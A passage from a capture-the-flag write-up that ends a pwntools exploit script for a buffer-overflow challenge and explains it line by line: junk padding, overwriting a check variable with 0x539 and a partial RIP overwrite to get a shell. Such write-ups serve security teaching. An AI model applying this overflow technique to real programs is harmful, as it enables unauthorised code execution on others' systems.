 ```python
]) 

# Wait to get this string "Enter new username: " then send our malicious payload
log.info("Sending Payload")
io.sendlineafter(b'Enter new username: ',payload)

# Wait to get this string "Choice: " then send 3 to select the third option
io.sendlineafter(b'Choice: ',b"3")

# Get interactive shell
io.interactive()
```

The Exploit script do the following :
- **Line 4 :** Connect to the target ip and port which should the challenge run in it
- **Line 7 :** Select option 1 to change the username 
- **Line 10 - 13 :** Create the payload of the exploit which contains a 28 junk char (eg. A) then the value `0x539` to overwrite the target variable 
  - 56 junk char ( eg. A ) 
  - The byte to overwrite the least byte in RIP and we choose it to be `0x12` will explain it later
- **Line 17 :** To send the payload 
- **Line 20 :** Choose option 3 to trigger the check of the value of variable `local_1c`
- **Line 23 :** : Make the connection interactive to interact with the shell 


And as we can see we managed to get a shell and retrieve the Flag 

![](/assets/img/ctf/pwn/My Friend, A Loathsome Worm/Exploit.gif)

